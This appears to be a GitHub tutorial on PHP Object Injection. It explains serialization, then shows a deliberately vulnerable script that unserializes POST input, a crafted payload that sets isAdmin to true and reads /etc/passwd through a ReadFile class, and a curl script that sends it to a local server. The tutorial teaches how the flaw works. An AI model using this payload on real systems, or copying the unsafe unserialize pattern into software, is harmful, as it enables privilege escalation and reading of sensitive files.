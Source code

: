 # PHP-Object-Injection

   PHP Object Injection enables the manipulation of an object content that shall be unserialized using the PHP unserialize() function. Thus, to fisrt understand the injection we may first understand the functions serialialize() and unserialize().
   
# Serealization and Deserealization.
   
   Developing web applications sometimes require to transfer data for storing, communication, logging, etc. This way the concepts of serealization and deserealization are born.<br>
     — Serialization is a process that converts an object into a specific structure data format such as convert Java Entity class to JSON format for sending via communication with other services or clients or maybe to storage.<br>
     — Deserialization is a process that converts data format into an object such as client sends requests as JSON data format and back end service convert it to Java Entity Class.<br>
   When receiving untrusted data without sufficient data verification a common vulnerability can be exploited, "Insecure Deserialization" that is in OWASP top 10 Web. 
   
# Exploiting Insecure Deserealization. 
   There are two things interconnected that we need to exploit this:<br>
   
   — The unserializacion of an object which manipulation is feasible from the user’s side (i.e. a cookie storing data as a serialized object)<br>
   — The use of a magic method (__wakeup, __destroy…) that can be abused in order to achieve interesting actions from a malicious user’s perspective (commands remote execution, file manipulation, etc.).

   Now that we know the concepts let's dive into the practice. Firsts things first, let's see how a serialized object looks like, we have a simple class "Users" that have two attributes(username, and isAdmin) and one simple method(PrintData), that verify if the user is or not an admin, then i just create an object and set the values of the attributes, the user is "JeJe" and isn't an admin.<br>
   
   ```php
   
class Users{

      public $username;
      public $isAdmin;

      public function PrintData(){
             if($this->isAdmin){
               echo $this->username . " is an admin\n"; 
             }else{
               echo $this->username . " is not an admin\n";
             }
      }
}

$obj = new Users();
$obj->username = 'JeJe';
$obj->isAdmin = False;

echo serialize($obj);

```
After the echo, using the php interpreter the output is:<br> 

![Alt text](/images/1.png)

O:5:"Users":2:{s:8:"username";s:4:"JeJe";s:7:"isAdmin";b:0;}<br>

   The syntax of the serialized string is relatively easy to understand: The O stands for the type of the serialized string. In this case the O maps to a PHP object. The 5 seperated by the colons represents the length of the name of the obj, so the structure is like "type:lenght:value". The 2 means that the object has two attributes, then the same logic is implemented to the attributes of the class inside of the brackets, 's' for strings and 'b' for boolean.<br>

   Now that we saw how an serialized object looks like let's implement a simple logic to see how we can exploit this. First let's change a litle bit the code, now there is another class in the same file that can read files from the system with the variable "filename".<br>
   
```php
class ReadFile{
 
      public function __tostring(){
             return file_get_contents($this->filename);      
      }

}
class Users{

      public $username;
      public $isAdmin;

      public function PrintData(){
             if($this->isAdmin){
               echo $this->username . " is an admin\n"; 
             }else{
               echo $this->username . " is not an admin\n";
             }
      }
}

$obj = unserialize($_POST['jeje']);
$obj->PrintData();
```

So if supposing that we found this code from a website and we want to verify if the code is vulnerable, looking at the code they are receiving some serialized object from a POST request that has a field 'jeje', and calling the method PrintData() to show if the user is an admin. So we can make a POST request whith the field 'jeje' containing a serialized object that we want, so let's do that.

First we have to create a class with the same attributes and everything, because the object must be equal to the original but with some malicious modifications that won't be noticed. 

```php
class ReadFile{
      
      public function __construct(){
             $this->filename = "/etc/passwd";
      }
}

class Users{

     public function __construct(){
            $this->username = new ReadFile();
	         $this->isAdmin = True;
     }
     
}

$obj = new Users();

echo serialize($obj);
echo "\n";
```

   The modification that i made was adding a constructor method, that is called every time that an object is created, so when the object from the class Users is created the "contructor" is called and it's gonna set the value of the username to another object from the class ReadFile(the class that can read a file from the system), then the constructor of the ReadFile class is called because an object from this class was set to the variable "username". Inside of the constructor the variable "filename" is set to a name from a file that i want to read.<br>

   Everything done we can create the serialized object from this malicious code that we want to inject:

![Alt text](/images/3.png)
   
   Now let's make the POST request with the serialized object that was created. To do this i created a local web server on machine with the original users.php file, to be the target. Before as you can se if i change the content from the field "b:0;" i can turn the user "jeje" in admin, because the value 0 is for the variable "isAdmin" and how it's boolean if i set to "1" i can become the admin.<br>
   
![Alt text](/images/2.png)

Making the request i can now become the admin and read the file "/etc/passwd".

![Alt text](/images/4.gif)
   
obs: the exploit.sh contains the same code from the other image (curl -XPOST...) i just write this in a script to avoid write this everytime that i needed. The content:<br>

```php
#!/bin/bash
curl -XPOST -d "jeje=$1" 127.0.0.1:80/users.php
```

Anyways that was a simple example to you understand how this attack can be exploited, hope u liked :-).   
   

